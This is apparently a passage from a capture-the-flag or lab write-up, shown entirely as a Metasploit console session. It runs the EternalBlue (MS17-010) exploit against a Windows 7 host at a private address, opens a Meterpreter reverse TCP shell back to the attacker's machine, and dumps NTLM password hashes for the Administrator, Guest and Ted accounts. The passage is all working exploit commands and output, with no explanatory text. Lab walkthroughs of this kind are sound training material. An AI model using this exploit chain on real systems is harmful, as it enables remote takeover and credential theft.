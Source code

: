 ```console
   2  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index, for example use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf5 > use 2
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.10.0.169
rhost => 10.10.0.169
msf5 exploit(windows/smb/ms17_010_eternalblue) > set lport 8888

msf5 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.195.117:8888 
[*] 10.10.0.169:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.0.169:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Home Basic 7600 x64 (64-bit)
[*] 10.10.0.169:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.0.169:445 - Connecting to target for exploitation.
[+] 10.10.0.169:445 - Connection established for exploitation.
[+] 10.10.0.169:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.0.169:445 - CORE raw buffer dump (25 bytes)
[*] 10.10.0.169:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 48 6f 6d 65 20 42  Windows 7 Home B
[*] 10.10.0.169:445 - 0x00000010  61 73 69 63 20 37 36 30 30                       asic 7600       
[+] 10.10.0.169:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.0.169:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.0.169:445 - Sending all but last fragment of exploit packet
[*] 10.10.0.169:445 - Starting non-paged pool grooming
[+] 10.10.0.169:445 - Sending SMBv2 buffers
[+] 10.10.0.169:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.0.169:445 - Sending final SMBv2 buffers.
[*] 10.10.0.169:445 - Sending last fragment of exploit packet!
[*] 10.10.0.169:445 - Receiving response from exploit packet
[+] 10.10.0.169:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.0.169:445 - Sending egg to corrupted connection.
[*] 10.10.0.169:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.0.169
[*] Meterpreter session 1 opened (10.10.195.117:8888 -> 10.10.0.169:49251) at 2022-05-07 12:34:32 +0100
[+] 10.10.0.169:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.0.169:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.0.169:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c156d5d108721c5626a6a054d6e0943c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Ted:1001:aad3b435b51404eeaad3b435b51404ee:2e2618f266da8867e5664425c1309a5c:::
meterpreter >
```
{: .nolineno }
